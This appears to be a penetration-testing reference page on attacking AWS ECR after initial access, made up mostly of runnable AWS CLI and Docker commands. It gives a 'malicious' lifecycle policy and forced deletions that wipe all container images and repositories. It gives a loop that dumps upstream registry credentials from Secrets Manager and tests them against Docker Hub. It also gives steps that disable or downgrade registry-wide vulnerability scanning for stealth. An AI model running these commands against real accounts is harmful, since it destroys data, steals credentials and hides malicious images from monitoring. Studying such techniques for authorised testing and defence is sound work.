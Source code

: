 # AWS - ECR Post Exploitation

## ECR

For more information check

[[../../aws-services/aws-ecr-enum.md]]

### Login, Pull & Push

```bash
# Docker login into ecr
## For public repo (always use us-east-1)
aws ecr-public get-login-password --region us-east-1 | docker login --username AWS --password-stdin public.ecr.aws/<random-id>
## For private repo
aws ecr get-login-password --profile <profile_name> --region <region> | docker login --username AWS --password-stdin <account_id>.dkr.ecr.<region>.amazonaws.com
## If you need to acces an image from a repo if a different account, in <account_id> set the account number of the other account

# Download
docker pull <account_id>.dkr.ecr.<region>.amazonaws.com/<repo_name>:latest
## If you still have the error "Requested image not found"
## It might be because the tag "latest" doesn't exit
## Get valid tags with:
TOKEN=$(aws --profile <profile> ecr get-authorization-token --output text --query 'authorizationData[].authorizationToken')
curl -i -H "Authorization: Basic $TOKEN" https://<account_id>.dkr.ecr.<region>.amazonaws.com/v2/<img_name>/tags/list

# Inspect the image
docker inspect sha256:079aee8a89950717cdccd15b8f17c80e9bc4421a855fcdc120e1c534e4c102e0
docker inspect <account id>.dkr.ecr.<region>.amazonaws.com/<image>:<tag> # Inspect the image indicating the URL

# Upload (example uploading purplepanda with tag latest)
docker tag purplepanda:latest <account_id>.dkr.ecr.<region>.amazonaws.com/purplepanda:latest
docker push <account_id>.dkr.ecr.<region>.amazonaws.com/purplepanda:latest

# Downloading without Docker
# List digests
aws ecr batch-get-image --repository-name level2 \
    --registry-id 653711331788 \
    --image-ids imageTag=latest | jq '.images[].imageManifest | fromjson'

## Download a digest
aws ecr get-download-url-for-layer \
    --repository-name level2 \
    --registry-id 653711331788 \
    --layer-digest "sha256:edfaad38ac10904ee76c81e343abf88f22e6cfc7413ab5a8e4aeffc6a7d9087a"
```

After downloading the images you should **check them for sensitive info**:

[[https://book.hacktricks.wiki/en/generic-methodologies-and-resources/basic-forensic-methodology/docker-forensics.html]]

### `ecr:PutLifecyclePolicy` | `ecr:DeleteRepository` | `ecr-public:DeleteRepository` | `ecr:BatchDeleteImage` | `ecr-public:BatchDeleteImage`

An attacker with any of these permissions can **create or modify a lifecycle policy to delete all images in the repository** and then **delete the entire ECR repository**. This would result in the loss of all container images stored in the repository.

```bash
# Create a JSON file with the malicious lifecycle policy
echo '{
  "rules": [
    {
      "rulePriority": 1,
      "description": "Delete all images",
      "selection": {
        "tagStatus": "any",
        "countType": "imageCountMoreThan",
        "countNumber": 0
      },
      "action": {
        "type": "expire"
      }
    }
  ]
}' > malicious_policy.json

# Apply the malicious lifecycle policy to the ECR repository
aws ecr put-lifecycle-policy --repository-name your-ecr-repo-name --lifecycle-policy-text file://malicious_policy.json

# Delete the ECR repository
aws ecr delete-repository --repository-name your-ecr-repo-name --force

# Delete the ECR public repository
aws ecr-public delete-repository --repository-name your-ecr-repo-name --force

# Delete multiple images from the ECR repository
aws ecr batch-delete-image --repository-name your-ecr-repo-name --image-ids imageTag=latest imageTag=v1.0.0

# Delete multiple images from the ECR public repository
aws ecr-public batch-delete-image --repository-name your-ecr-repo-name --image-ids imageTag=latest imageTag=v1.0.0
```

### Exfiltrate upstream registry credentials from ECR Pull‑Through Cache (PTC)

If ECR Pull‑Through Cache is configured for authenticated upstream registries (Docker Hub, GHCR, ACR, etc.), the upstream credentials are stored in AWS Secrets Manager with a predictable name prefix: `ecr-pullthroughcache/`. Operators sometimes grant ECR admins broad Secrets Manager read access, enabling credential exfiltration and reuse outside AWS.

Requirements
- secretsmanager:ListSecrets
- secretsmanager:GetSecretValue

Enumerate candidate PTC secrets
```bash
aws secretsmanager list-secrets \
  --query "SecretList[?starts_with(Name, 'ecr-pullthroughcache/')].Name" \
  --output text
```

Dump discovered secrets and parse common fields
```bash
for s in $(aws secretsmanager list-secrets \
  --query "SecretList[?starts_with(Name, 'ecr-pullthroughcache/')].ARN" --output text); do
  aws secretsmanager get-secret-value --secret-id "$s" \
    --query SecretString --output text | tee /tmp/ptc_secret.json
  jq -r '.username? // .user? // empty' /tmp/ptc_secret.json || true
  jq -r '.password? // .token? // empty' /tmp/ptc_secret.json || true
done
```

Optional: validate leaked creds against the upstream (read‑only login)
```bash
echo "$DOCKERHUB_PASSWORD" | docker login --username "$DOCKERHUB_USERNAME" --password-stdin registry-1.docker.io
```

Impact
- Reading these Secrets Manager entries yields reusable upstream registry credentials (username/password or token), which can be abused outside AWS to pull private images or access additional repositories depending on upstream permissions.

### Registry-level stealth: disable or downgrade scanning via `ecr:PutRegistryScanningConfiguration`

An attacker with registry-level ECR permissions can silently reduce or disable automatic vulnerability scanning for ALL repositories by setting the registry scanning configuration to BASIC without any scan-on-push rules. This prevents new image pushes from being scanned automatically, hiding vulnerable or malicious images.

Requirements
- ecr:PutRegistryScanningConfiguration
- ecr:GetRegistryScanningConfiguration
- ecr:PutImageScanningConfiguration (optional, per‑repo)
- ecr:DescribeImages, ecr:DescribeImageScanFindings (verification)

Registry-wide downgrade to manual (no auto scans)
```bash
REGION=us-east-1
# Read current config (save to restore later)
aws ecr get-registry-scanning-configuration --region "$REGION"

# Set BASIC scanning with no rules (results in MANUAL scanning only)
aws ecr put-registry-scanning-configuration \
  --region "$REGION" \
  --scan-type BASIC \
  --rules '[]'
```

Test with a repo and image
```bash
acct=$(aws sts get-caller-identity --query Account --output text)
repo=ht-scan-stealth
aws ecr create-repository --region "$REGION" --repository-name "$repo" >/dev/null 2>&1 || true
aws ecr get-login-password --region "$REGION" | docker login --username AWS --password-stdin ${acct}.dkr.ecr.${REGION}.amazonaws.com
printf 'FROM alpine:3.19\nRUN echo STEALTH > /etc/marker\n' > Dockerfile
docker build -t ${acct}.dkr.ecr.${REGION}.amazonaws.com/${repo}:test .
docker push ${acct}.dkr.ecr.${REGION}.amazonaws.com/${repo}:test

# Verify no scan ran automatically
aws ecr describe-images --region "$REGION" --repository-name "$repo" --image-ids imageTag=test --query 'imageDetails[0].imageScanStatus'
# Optional: will error with ScanNotFoundException if no scan exists
aws ecr describe-image-scan-findings --region "$REGION" --repository-name "$repo" --image-id imageTag=test || true
```

Optional: further degrade at repo scope
```bash
# Disable scan-on-push for a specific repository
aws ecr put-image-scanning-configuration \
  --region "$REGION" \
  --repository-name "$repo" \
  --image-scanning-configuration scanOnPush=false
```

Impact
- New image pushes across the registry are not scanned automatically, reducing visibility of vulnerable or malicious content and delaying detection until a manual scan is initiated.

### Registry‑wide scanning engine downgrade via `ecr:PutAccountSetting` (AWS_NATIVE -> CLAIR)

Reduce vulnerability detection quality across the entire registry by switching the BASIC scan engine from the default AWS_NATIVE to the legacy CLAIR engine. This doesn’t disable scanning but can materially change findings/coverage. Combine with a BASIC registry scanning configuration with no rules to make scans manual-only.

Requirements
- `ecr:PutAccountSetting`, `ecr:GetAccountSetting`
- (Optional) `ecr:PutRegistryScanningConfiguration`, `ecr:GetRegistryScanningConfiguration`

Impact
- Registry setting `BASIC_SCAN_TYPE_VERSION` set to `CLAIR` so subsequent BASIC scans run with the downgraded engine. CloudTrail records the `PutAccountSetting` API call.

Steps
```bash
REGION=us-east-1

# 1) Read current value so you can restore it later
aws ecr get-account-setting --region $REGION --name BASIC_SCAN_TYPE_VERSION || true

# 2) Downgrade BASIC scan engine registry‑wide to CLAIR
aws ecr put-account-setting --region $REGION --name BASIC_SCAN_TYPE_VERSION --value CLAIR

# 3) Verify the setting
aws ecr get-account-setting --region $REGION --name BASIC_SCAN_TYPE_VERSION

# 4) (Optional stealth) switch registry scanning to BASIC with no rules (manual‑only scans)
aws ecr put-registry-scanning-configuration --region $REGION --scan-type BASIC --rules '[]' || true

# 5) Restore to AWS_NATIVE when finished to avoid side effects
aws ecr put-account-setting --region $REGION --name BASIC_SCAN_TYPE_VERSION --value AWS_NATIVE
```

